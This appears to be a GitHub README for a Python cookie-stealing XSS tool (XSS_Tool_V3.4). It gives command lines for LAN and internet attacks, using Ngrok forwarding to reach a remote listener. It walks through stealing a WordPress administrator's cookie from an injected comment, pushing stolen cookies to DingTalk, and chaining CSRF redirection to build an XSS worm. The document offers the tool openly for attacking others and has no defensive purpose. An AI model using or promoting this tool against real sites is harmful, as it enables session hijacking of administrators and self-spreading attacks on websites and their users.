


# XSS steals cookies
* The current version V3.4 updates the remote push of nails, so that you can receive victim information in real time on Android without having to face the host
* Update the redirection function, you can use CSRF to create XSS worm attacks
* Python version 3.6 or above
* Obtain the victim's public IP address and cookie
* Compatible with Windows or Linux
## usage method
  * View help information

      ```#python3 XSS_Tool_V3.4.py -h```

    

  * LAN attack

      ```#python3 XSS_Tool_V3.4.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS_Tool_V3.4.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * We will use WordPress-6.1.1 for XSS attack simulation test
 * _If your machine has a public IP address, just listen to the local port_

# Use Extranet attack
* Enable port forwarding (Ngrok is used for demonstration)

      


* Use Extranet attack

    ```#python3 XSS_Tool_V3.4.py -t -rh http://xxx.xxx.xxx -rp 10029```

      


# Use Intranet attack [Do not push messages Test]
-----------------Hacker--------------------------
* You can use the - lp parameter to specify the port. If you do not write, the default port is 8888

```#python3 XSS_Tool_V3.4.py```

  

* Copy payload and inject XXS injection point

  

----------------Server Admin------------------------

* Normal status of administrator

  

* The administrator was hacked to execute malicious code when viewing comments

  

-----------------Hacker--------------------------
* Hacker gets the administrator's cookie


# Use Intranet attack[Message push]
* @1.Use the parameter options - dt and - dk for push settings

```#python3 XSS_Tool_V3.4.py -dt xxxxx... -dk xxx```

  

* @2.Or directly use the parameter dcf, provided that you have configured the parameters in the DingTalk.conf file


1.You must modify the parameters in the DingTalk.conf file to use the - dcf option

  

2.The - dcf option can be used after configuration

```#python3 XSS_Tool_V3.4.py -dcf```

  

* Copy payload and inject XXS injection point


----------Injection is the same as the above demonstration steps---------------

* After the administrator cookie is obtained, it will be automatically pushed to the DingTalk platform

  

* Android perspective

  

# Use Intranet attack [XSS And CSRF Test]

* CSRF shooting range

  

* Select the parameter - rd to redirect

  

* The administrator accesses and executes malicious code and is redirected

  

##^^^You can create an XSS worm for network propagation